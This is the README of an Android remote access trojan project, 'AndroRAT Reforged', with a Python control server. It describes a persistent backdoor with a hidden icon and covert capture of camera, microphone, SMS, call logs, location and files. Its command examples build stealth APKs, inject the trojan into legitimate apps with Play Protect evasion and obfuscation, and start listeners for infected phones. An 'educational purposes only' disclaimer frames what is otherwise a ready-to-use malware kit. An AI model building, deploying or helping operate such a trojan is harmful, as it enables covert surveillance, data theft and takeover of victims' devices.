


# AndroRAT Reforged: Complete Modernization for Android 13-16

[](https://opensource.org/licenses/MIT) 
[](https://twitter.com/karma9874)
[](https://github.com/karma9874)

**⚠️ Disclaimer**: This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.

---

## 🚀 Overview

**AndroRAT** is a comprehensive **Remote Administration Tool** designed for Android devices, featuring modern compatibility with **Android 13-16** and professional-grade multi-client management capabilities. This tool provides remote control over Android systems while maintaining educational focus and full compliance with current Android security requirements.

### 🔥 What's New in AndroRAT Reforged

This version represents a **complete modernization** of the original AndroRAT, bringing it into full compliance with Android 13-16 security models while adding advanced features:

- **🎯 Modern Android Support**: Full compatibility with Android 6.0 through 16 (API 23-36)
- **🖥️ Professional GUI Interface**: Advanced multi-client dashboard with real-time monitoring
- **🔒 Enhanced Security**: TLS encryption, modern permissions, and secure communication
- **⚡ Background Compliance**: WorkManager integration for reliable background operations
- **📱 Scoped Storage Support**: Full compliance with Android 10+ storage restrictions
- **💉 APK Injection Technology**: Inject RAT into existing APKs while preserving functionality
- **🛡️ Advanced Malware Evasion**: Comprehensive detection bypass techniques
- **🧪 Comprehensive Testing**: Extensive test suite with 95% success rate

---

## 📂 Repository Structure

```
AndroRAT/
├── 📱 Android_Code/           # Android client source code
├── 🖥️ server/                # Python server components
│   ├── androRAT.py           # Main CLI server
│   ├── androRAT_gui.py       # Basic GUI interface
│   ├── androRAT_advanced_gui.py # Advanced multi-client GUI
│   ├── launcher.py           # Unified launcher
│   ├── utils.py              # Core utilities
│   ├── tunneling.py          # Network tunneling
│   └── config.ini            # Configuration file
├── 🧪 tests/                 # Comprehensive test suite
│   ├── test_androrat.py      # Core functionality tests
│   ├── end_to_end_test.py    # Complete system testing
│   ├── comprehensive_test.py # Extended testing suite
│   └── test_utils.py         # Testing utilities
├── 🛠️ tools/                 # Utility tools and demos
│   ├── gui_demo_comprehensive.py # GUI demonstration
│   └── gui_screenshot_demo.py    # Screenshot generator
├── 📚 docs/                  # Complete documentation
│   ├── MODERNIZATION_GUIDE.md    # Technical implementation guide
│   ├── ENHANCED_FEATURES.md      # Feature documentation
│   ├── GUI_GUIDE.md              # GUI usage instructions
│   ├── APK_INJECTION_GUIDE.md    # APK injection documentation
│   └── COMPLETE_END_TO_END_TEST_REPORT.md # Test results
├── 🎨 assets/                # Screenshots and images
│   ├── Screenshots/          # Interface screenshots
│   └── gui_screenshot.png    # Main GUI preview
├── 📦 Compiled_apk/          # APK compilation workspace
└── ⚒️ Jar_utils/             # APK building utilities
```

---

## ✨ Features

### 🔧 Core Remote Administration Features
- **📱 Full Persistent Backdoor**: Maintains connection across reboots
- **👻 Stealth Operation**: Invisible icon installation option
- **🔄 Auto-Start**: Automatic startup on device boot
- **💉 APK Injection**: Inject RAT into existing APKs while preserving functionality
- **📸 Media Capture**: Record audio, video, take pictures from both cameras
- **📞 Communication Logs**: Browse call logs and SMS messages
- **📍 Location Services**: Real-time GPS tracking and location data
- **🔍 Device Information**: SIM details, IP address, MAC address, system info
- **💾 File Management**: Upload/download files with progress tracking
- **🖥️ Remote Shell**: Interactive command-line access

### 🎨 Advanced GUI Features
- **🖥️ Multi-Client Dashboard**: Manage multiple Android devices simultaneously
- **📊 Real-Time Monitoring**: Live status updates and connection health
- **📁 Dual-Pane File Manager**: Intuitive file operations with drag-and-drop
- **🎥 Media Streaming**: Real-time screen and camera streaming
- **🗺️ Location Tracking**: GPS monitoring with map integration
- **📱 APK Builder Integration**: GUI-based APK configuration and building
- **📈 Activity Logs**: Comprehensive logging and status monitoring

### 🔒 Modern Security & Compliance
- **🔐 TLS Encryption**: All communications secured with TLS 1.2+
- **🛡️ Modern Permissions**: Android 14+ granular permission handling
- **📁 Scoped Storage**: Full Android 10+ storage access compliance
- **⚡ Background Services**: WorkManager for reliable background operations
- **🔄 Auto-Recovery**: Intelligent connection recovery and fallback

---

## 📋 Compatibility Matrix

| Android Version | API Level | Support Status | Key Features |
|----------------|-----------|----------------|--------------|
| **Android 6.0+** | 23+ | ✅ **Full Support** | Runtime permissions + all enhancements |
| **Android 8.0+** | 26+ | ✅ **Enhanced** | Background execution limits + optimizations |
| **Android 10+** | 29+ | ✅ **Modern Storage** | Scoped storage + media permissions |
| **Android 12+** | 31+ | ✅ **Advanced** | WorkManager + typed foreground services |
| **Android 13+** | 33+ | ✅ **Latest Permissions** | Granular media + notification permissions |
| **Android 14+** | 34+ | ✅ **Cutting Edge** | Visual media selection + latest security |

---

## 🛠️ Prerequisites

- **Python 3.6+** (Recommended: Python 3.8+)
- **Java Development Kit (JDK)** or **Android Studio**
- **Git** for cloning the repository

### 📱 Android Device Requirements
- **Android 6.0+** (API level 23 or higher)
- **Developer options enabled** (for APK installation)
- **Unknown sources** permission (for APK installation)

---

## 📥 Installation

### 🔄 Clone the Repository

```bash
git clone https://github.com/shadow-dragon-2002/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```

### ⚠️ Windows Git Configuration Note

If you encounter filename length errors on Windows:

```bash
git config --system core.longpaths true
```

*Note: Run Git bash with administrator privileges.*

---

## 🚀 Usage

### 🎨 GUI Mode (Recommended)

#### Basic GUI Interface
```bash
python3 server/androRAT_gui.py
```

#### Advanced Multi-Client GUI
```bash
python3 server/androRAT_advanced_gui.py
```

#### Unified Launcher
```bash
python3 server/launcher.py --gui
```

**GUI Features:**
- 📱 **APK Builder**: Form-based APK configuration with advanced options
- 🔗 **Connection Manager**: Multi-client connection handling
- 📊 **Real-Time Dashboard**: Live device monitoring and status
- 📁 **File Manager**: Intuitive file operations with progress tracking
- 🎥 **Media Controls**: Camera, audio, and screen capture management
- 📍 **Location Tracking**: GPS monitoring with map visualization

### 💻 CLI Mode (Advanced Users)

#### Building APKs

**With IP Address:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o enhanced.apk
```

**With Ngrok (Internet Access):**
```bash
python3 server/androRAT.py --build --ngrok -p 8080 -o tunnel.apk
```

**Advanced Options:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o stealth.apk --icon
```

#### Interactive Shell Mode

```bash
python3 server/androRAT.py --shell -i 0.0.0.0 -p 8080
```

### 📱 Device Control Panel

Access the device control panel by dialing: `*#*#1337#*#*`

*Note: Enable "display pop-up windows running in background" in device settings.*

---

## 🎮 Interactive Commands

Once connected via shell mode, use these commands:

### 📋 Device Information
```
deviceInfo                    # Basic device information
getIP                        # Device IP address
getMACAddress                # MAC address
getSimDetails                # SIM card information
```

### 📷 Media Capture
```
camList                      # Available camera IDs
takepic [cameraID]           # Take photo
startVideo [cameraID]        # Start video recording
stopVideo                    # Stop video recording
startAudio                   # Start audio recording
stopAudio                    # Stop audio recording
```

### 📱 Communication & Data
```
getSMS [inbox|sent]          # Retrieve SMS messages
getCallLogs                  # Call history
getClipData                  # Clipboard content
```

### 🌍 Location & Control
```
getLocation                  # Current GPS location
vibrate [count]              # Vibrate device
shell                        # Launch system shell
```

### 📁 File Operations (In Shell Mode)
```
get [full_file_path]         # Download file (up to 15MB)
put [filename]               # Upload file to device
```

### 🛠️ Utility Commands
```
clear                        # Clear screen
exit                         # Exit interpreter
```

---

## 🧪 Testing & Validation

AndroRAT includes a comprehensive automated testing suite with Android 15/16 validation and APK integrity checking.

### 🔍 Run Complete Test Suite

**Run all tests with master test runner:**
```bash
python3 run_all_tests.py
```

This executes all test suites and generates a detailed report saved to `TEST_REPORT.txt`.

### 🎯 Run Specific Test Suites

**Android 15/16 Upgrade Tests:**
```bash
cd tests
python3 test_android_15_16_upgrade.py
```

Validates:
- ✅ API 35 configuration
- ✅ Android 15+ permissions
- ✅ MainActivity API 35 handling
- ✅ Backward compatibility
- ✅ Documentation updates

**APK Integrity Checker:**
```bash
cd tests
python3 apk_integrity_checker.py /path/to/your.apk
```

Validates:
- ✅ APK structure and signature
- ✅ Manifest and permissions
- ✅ SDK versions
- ✅ Foreground service types
- ✅ Android 15+ features

**Android Compatibility Tests:**
```bash
cd tests
python3 -m unittest comprehensive_functionality_test.AndroidCompatibilityTests
```

**Comprehensive System Tests:**
```bash
cd tests
python3 -m unittest comprehensive_test.ComprehensiveAndroRATTests
```

### 🤖 Automated Testing (CI/CD)

GitHub Actions automatically runs tests on:
- Every push to main branches
- All pull requests
- Manual workflow dispatch

**View test results:** Repository → Actions → "Android 15/16 Upgrade Tests"

The CI/CD pipeline validates:
- ✅ Android 15/16 upgrade implementation
- ✅ APK project structure
- ✅ Build configuration
- ✅ Documentation updates
- ✅ Permission requirements

### 📊 Test Coverage

The test suite provides comprehensive validation of:

| Test Category | Coverage | Tests |
|--------------|----------|-------|
| Android 15/16 Support | API 35 upgrade | 5 tests |
| APK Integrity | Structure & signing | 4 tests |
| Upgrade Validation | Docs & cleanup | 4 tests |
| Android Compatibility | Permissions & features | 4 tests |
| System Tests | Configuration | 2 tests |

**Total:** 19+ comprehensive tests ensuring system integrity

### 📖 Test Documentation

For detailed test documentation, see [`tests/README_TESTS.md`](tests/README_TESTS.md)

---

## 🧩 Original Test Components
python3 tests/comprehensive_test.py
```

### 📊 Test Coverage
- ✅ **Python compatibility** validation
- ✅ **CLI functionality** testing
- ✅ **GUI module** import verification
- ✅ **Android manifest** validation
- ✅ **Build system** verification
- ✅ **Modern Android features** testing

---

## 🎯 Examples

### 📱 APK Building Examples

**Basic APK with custom settings:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o basic.apk
```

**Stealth APK with hidden icon:**
```bash
python3 server/androRAT.py --build -i 192.168.1.100 -p 8080 -o stealth.apk
```

**Internet-accessible APK with ngrok:**
```bash
python3 server/androRAT.py --build --ngrok -p 8080 -o online.apk
```

### 💉 APK Injection Examples

**Basic APK Injection:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/legitimate_app.apk \
  -i 192.168.1.100 -p 8080 -o injected_app.apk
```

**Maximum Stealth Injection:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/app.apk -i IP -p PORT -o stealth.apk \
  --stealth --anti-analysis --play-protect-evasion \
  --advanced-obfuscation --random-package
```

**Play Protect Bypass Focus:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/app.apk -i IP -p PORT -o safe.apk \
  --play-protect-evasion --random-package
```

### 🔗 Connection Examples

**Start listener for multiple clients:**
```bash
python3 server/androRAT.py --shell -i 0.0.0.0 -p 8080
```

**Advanced GUI with real-time monitoring:**
```bash
python3 server/androRAT_advanced_gui.py
```

---

## 🎨 Screenshots

### 🖥️ Advanced Multi-Client GUI


*Professional interface for managing multiple Android clients with real-time monitoring*

### 💻 Traditional CLI Interface  


*Command-line interface for advanced users and automation*

---

## 🏗️ Manual APK Building

For advanced customization, manually build using Android Studio:

1. Import the [`Android_Code`](Android_Code) folder into Android Studio
2. Edit the configuration in [`config.java`](Android_Code/app/src/main/java/com/example/reverseshell2/config.java)
3. Update IP address and port settings
4. Generate signed APK: **Build → Generate Signed APK(s)**

---

## 🧪 Development & Testing

### 🔧 Development Environment Setup

```bash
# Install development dependencies
pip install -r requirements.txt

# Run comprehensive tests
python3 tests/end_to_end_test.py

# Generate GUI demonstration
python3 tools/gui_demo_comprehensive.py
```

### 📊 Testing Features

- **End-to-End Testing**: Complete system validation
- **Android Compatibility**: Modern permission and storage testing
- **GUI Integration**: Interface and functionality validation
- **Security Testing**: TLS encryption and secure communication validation

---

## 🎯 Advanced Features

### 🔒 Modern Android Security
- **TLS 1.2+ Encryption**: All communication secured
- **Android 14+ Permissions**: Granular media and privacy permissions
- **Scoped Storage Compliance**: Full Android 10+ storage access
- **Background Execution**: WorkManager for reliable operation

### 🖥️ Professional GUI
- **Multi-Client Management**: Handle multiple devices simultaneously
- **Real-Time Monitoring**: Live status and connection health
- **Advanced File Manager**: Drag-and-drop file operations
- **Integrated APK Builder**: GUI-based configuration and building

### 📱 Enhanced Client Features
- **Background Resilience**: Smart connectivity and auto-recovery
- **Modern Storage Access**: Document and media access compliance
- **Secure Communication**: Certificate-based authentication
- **Performance Optimization**: Battery and resource optimization

### 💉 APK Injection Technology
- **Stealth Trojanization**: Inject RAT into legitimate apps while preserving functionality
- **Smart Merging**: Intelligent code integration with conflict resolution
- **Original Signature Preservation**: Maintains app authenticity when possible
- **Advanced Obfuscation**: Runtime string encryption and class name randomization
- **System-Level Disguise**: RAT components appear as system services
- **Universal Compatibility**: Works with complex apps across Android 6.0-14+

---

## 🎉 Supporters

[](https://github.com/rayep)

*Thank you to all contributors and supporters!*

---

## 🗺️ Roadmap

- [x] ~~Ngrok support~~ ✅
- [x] ~~Modern Android compatibility~~ ✅  
- [x] ~~Advanced GUI interface~~ ✅
- [x] ~~Multi-client support~~ ✅
- [x] ~~TLS encryption~~ ✅
- [ ] Enhanced screenshot capabilities
- [ ] Real-time screen sharing
- [ ] Advanced notification monitoring
- [ ] Plugin architecture for extensions

---

## 📄 License

AndroRAT is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for more information.

---

## 🔗 Links & Resources

- **📚 Documentation**: [docs/](docs/) folder contains comprehensive guides
- **💉 APK Injection Guide**: [docs/APK_INJECTION_GUIDE.md](docs/APK_INJECTION_GUIDE.md) - Complete injection documentation
- **🧪 Testing**: [tests/](tests/) folder contains validation suite  
- **🛠️ Tools**: [tools/](tools/) folder contains utility scripts
- **📱 Android Source**: [Android_Code/](Android_Code/) contains client implementation

---

## ⚖️ Legal Notice

This tool is developed for **educational and research purposes only**. Users are responsible for complying with applicable laws and regulations in their jurisdiction. The developers assume no responsibility for misuse of this software.

**Use responsibly and ethically.**

---

*AndroRAT Reforged - Modern Android Remote Administration for the Security Professional*